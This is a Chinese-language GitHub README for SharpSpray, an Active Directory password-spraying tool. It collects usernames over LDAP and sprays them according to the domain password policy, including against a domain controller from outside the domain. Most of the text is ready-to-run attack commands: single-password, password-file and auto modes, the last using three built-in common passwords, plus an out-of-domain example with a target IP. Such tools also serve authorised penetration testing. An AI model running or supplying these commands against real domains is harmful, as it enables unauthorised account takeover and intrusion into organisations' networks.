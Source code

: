 # SharpSpray

这是一个域内的密码喷射攻击工具，能通过ldap收集用户名，并根据密码设置策略进行自动域内的密码喷射攻击。SharpSpray是对SharpHose项目进行改造实现的，解决了原项目中无法在域外爆破、无法进行批量密码爆破等问题，并内置了三个域内高频率口令。

## feature

* 通过LDAP自动查找用户来进行喷射

* 根据密码策略自动喷射
* 多线程喷射，速度较快
* 能在域外对域控进行喷射

## Usage

```
Examples:
Domain Joined Spray: SharpSpray.exe --action SPRAY_USERS --spraypassword Aa123456789.
Domain Joined Spray w/ Exclusions: SharpSpray.exe --action SPRAY_USERS --auto
Domain Joined Spray w/ Exclusions: SharpSpray.exe --action SPRAY_USERS --passfile c:\test.txt
Non-Domain Joined Spray: SharpSpray.exe  --dc-ip 172.16.178.9 --domain windows.local --username test --password Aa123456789. --action SPRAY_USERS --spraypassword Aa123456789.
Domain Joined Show Policies: SharpSpray.exe --action GET_POLICIES
Domain Joined Show Policy Users: SharpSpray.exe --action GET_POLICY_USERS --policy windows
Domain Joined Show All Users: SharpSpray.exe --action GET_ENABLED_USERS
```

### 策略发现

在使用之前可以先通过GET_POLICIES来获取当前密码策略和域内总用户数，避免用户数目过大导致服务器崩溃。

`SharpSpray.exe --action GET_POLICIES`

![image-20220317144358574](./README/image-20220317144358574.png)

### 密码喷射攻击（三种喷射模式）

`SharpSpray.exe --action SPRAY_USERS --spraypassword Aa123456789.`只爆破一个密码

`SharpSpray.exe --action SPRAY_USERS --auto` 此命令会自动爆破域内所有用户的1234qwer!@#$、1qaz@WSX1qaz、QAZwsxEDC这三个高频密码。

`SharpSpray.exe --action SPRAY_USERS --passfile c:\test.txt`爆破一个密码本

![image-20220317144519539](./README/image-20220317144519539.png)

### 域外对域控进行密码喷射攻击

`SharpSpray.exe  --dc-ip 172.16.178.9 --domain windows.local --username test --password Aa123456789. --action SPRAY_USERS --spraypassword Aa123456789.`

## TODO

* 域外的用户名爆破
* 域内信息收集
